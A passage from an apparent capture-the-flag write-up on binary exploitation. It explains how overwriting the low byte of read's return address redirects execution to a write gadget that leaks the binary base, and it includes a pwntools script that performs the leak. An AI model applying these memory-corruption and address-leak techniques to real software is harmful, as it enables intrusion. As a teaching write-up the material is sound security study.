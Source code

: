 Now we can write to the stack a bunch of times! Assuming the `e0000` base address we guessed is correct and points somewhere in the stack, that is...

## Taking Control

We know have the ability to write to some address that has a good chance of being somewhere in the stack, but we don't know where. We also don't know the addresses of any code, so there's not a lot we can do.

Fortunately, there's a way to leak our offset within the stack *and* the binary base address at the same time. Assuming the pointer we have is somewhere above the active area of the stack, we can continue writing to that pointer one byte at a time. The writes will have no effect until we hit the low byte of the return address of the `read` call. This return address is normally at offset `0x114d` in the binary; but if we repeatedly write the byte `0x1f`, then `read` will return to the `write()` call at the beginning of `main()`. This gadget writes 8 bytes starting at the address contained within `rbx` -- and `rbx` points to a code pointer!

![](writegadget.png)

```python
offset = 0x8
p.send(b"\x00" * offset + b'\x00')

# wait for buffers to flush
while p.recv(timeout=1):
    pass

while True:
    offset += 16
    print(hex(offset))
    p.send(b"\x1f" * 16)
    if p.recvuntil(b'1', timeout=0.5 if args.REMOTE else 0.01) != b'':
        break

bin_base = u64(b'1' + p.recv(7)) - 0x1131
print("bin_base:", hex(bin_base))
```
